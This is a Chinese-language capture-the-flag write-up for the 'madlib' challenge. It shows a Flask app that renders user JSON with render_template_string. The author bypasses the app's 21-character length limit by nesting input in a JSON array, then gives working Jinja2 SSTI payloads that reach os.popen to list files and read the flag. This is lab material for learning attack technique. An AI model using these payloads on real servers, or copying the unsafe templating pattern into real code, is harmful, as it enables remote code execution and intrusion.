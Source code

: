 # madlib

## 1、打开页面点击 **source** 得到源代码

![image-20211009144501145](https://i.loli.net/2021/10/09/t8pQ1Cbl4SNGHFA.png)

```python
from flask import Flask, render_template_string, request, send_from_directory

app = Flask(__name__)

@app.route('/')
def index():
    return send_from_directory('html', 'index.html')

@app.route('/madlib', methods=['POST'])
def madlib():
    if len(request.json) == 5:
        verb = request.json.get('verb')
        noun = request.json.get('noun')
        adjective = request.json.get('adjective')
        person = request.json.get('person')
        place = request.json.get('place')
        params = [verb, noun, adjective, person, place]
        if any(len(i) > 21 for i in params):
            return 'your words must not be longer than 21 characters!', 403
        madlib = f'To find out what this is you must {verb} the internet then get to the {noun} system through the visual MAC hard drive and program the open-source but overriding the bus won\'t do anything so you need to parse the online SSD transmitter, then index the neural DHCP card {adjective}.{person} taught me this trick when we met in {place} allowing you to download the knowledge of what this is directly to your brain.'
        return render_template_string(madlib)
    return 'This madlib only takes five words', 403

@app.route('/source')
def show_source():
    return send_from_directory('/app/', 'app.py')

app.run('0.0.0.0', port=1337)
```



## 2、填写信息，提交

![image-20211009144749015](https://i.loli.net/2021/10/09/BoAxqfE23g64l81.png)



## 3. 抓包

![image-20211009144708006](https://i.loli.net/2021/10/09/IUu6C5fc7jLt9yd.png)



## 4. 分析源代码

根据源代码可以判断出这是一道SSTI题，需要满足以下条件：

- post提交json数据到 */madlib*

- json长度等于5

- json数据中的verb、noun、adjective、person、place、params长度不能超过21



## 5. 测试SSTI

在verb处输入`{{3*8}}`输出**24**

![image-20211009145508446](https://i.loli.net/2021/10/09/Ycdm6wlk9p21shg.png)



## 6. 绕过长度判断RCE

这一步卡了挺久的，后来想到了：既然是json格式的数据，那么是否可以嵌套array呢？尝试了一下发现果然可以

![image-20211009150804297](https://i.loli.net/2021/10/09/FuhHGsf6DVlSzRA.png)

成功绕过长度限制！



## 7. RCE

可以把字符串内容写到get参数中，使用`request.args.参数名称`读取：

```http
POST /madlib?e=__import__('os').popen('ls').read()

{"verb":["{{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval'](request.args.e)}}",2],"noun":"456","adjective":"333","person":"444","place":"555"}
```

![image-20211009150928117](https://i.loli.net/2021/10/09/MzOkEnFPrC1y5Dh.png)



## 8. Get Flag

```http
POST /madlib?e=__import__('os').popen('cat+flag.txt').read()

{"verb":["{{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval'](request.args.e)}}",2],"noun":"456","adjective":"333","person":"444","place":"555"}
```

![image-20211009151148965](https://i.loli.net/2021/10/09/VQPjhBcysbirU17.png)